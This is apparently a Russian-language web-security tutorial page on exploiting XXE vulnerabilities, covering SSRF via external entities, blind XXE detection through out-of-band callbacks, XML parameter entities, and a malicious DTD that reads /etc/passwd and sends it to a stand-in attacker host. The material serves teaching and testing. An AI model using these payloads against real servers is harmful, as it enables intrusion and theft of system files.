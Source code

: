 ## Эскплуатация XXE для проведения атак SSRF
В следующем примере XXE внешний объект заставит сервер выполнить внутренний HTTP-запрос к внутренней системе в инфраструктуре организации:
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

## Слепые XXE
[Finding and exploiting blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)
### Обнаружение слепых XXE с помощью внеполосных методов (OAST)
Часто можно обнаружить слепой XXE, используя ту же технику, что и для атак XXE SSRF, но инициируя внеполосное сетевое (out-of-band) взаимодействие с подконтрольной системой:
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

Эта XXE-атака заставляет сервер выполнить внутренний HTTP-запрос к указанному URL. Атакующий может проследить за результирующим DNS-поиском и HTTP-запросом и таким образом обнаружить, что XXE-атака была успешной.

Иногда XXE-атаки с использованием обычных сущностей блокируются из-за некоторой проверки ввода приложением или некоторого ужесточения используемого парсера XML. В такой ситуации вместо них можно использовать сущности параметров XML. Сущности параметров XML - это особый вид сущностей XML, на которые можно ссылаться только в других местах DTD. Для настоящих целей вам нужно знать только две вещи. Во-первых, объявление сущности параметра XML включает символ процента перед именем сущности:
`<!ENTITY % myparameterentity "my parameter entity value" >`

Ссылки на сущности параметров:
`%myparameterentity;`

Например:
`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

Эта полезная нагрузка XXE объявляет сущность параметра XML под названием `xxe`, а затем использует эту сущность в DTD. Это вызовет поиск DNS и HTTP-запрос к домену атакующего, что подтвердит успешность атаки. 

### Эксплуатация слепого XXE для внеполосной утечки данных
Пример вредоносного DTD для эксфильтрации содержимого файла `/etc/passwd` выглядит следующим образом:
`<!ENTITY % file SYSTEM "file:///etc/passwd">`
`<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">`
`%eval;`
`%exfiltrate;`

_Unicode Hex Character Code:_
`&#x25; == %`

Этот DTD выполняет следующие действия:
- Определяет сущность параметра XML под названием `file`, содержащий содержимое файла `/etc/passwd`.
- Определяет сущность параметра XML под названием `eval`, содержащий динамическое объявление другой сущности `exfiltrate`. Сущность `exfiltrate` будет оценена при выполнении HTTP-запроса к веб-серверу злоумышленника, содержащего значение сущности `file` в строке запроса URL.
- Использует сущность `eval`, которая вызывает динамическое объявление сущности `exfiltrate`.
- Использует сущность `exfiltrate`, так что ее значение оценивается при запросе указанного URL.
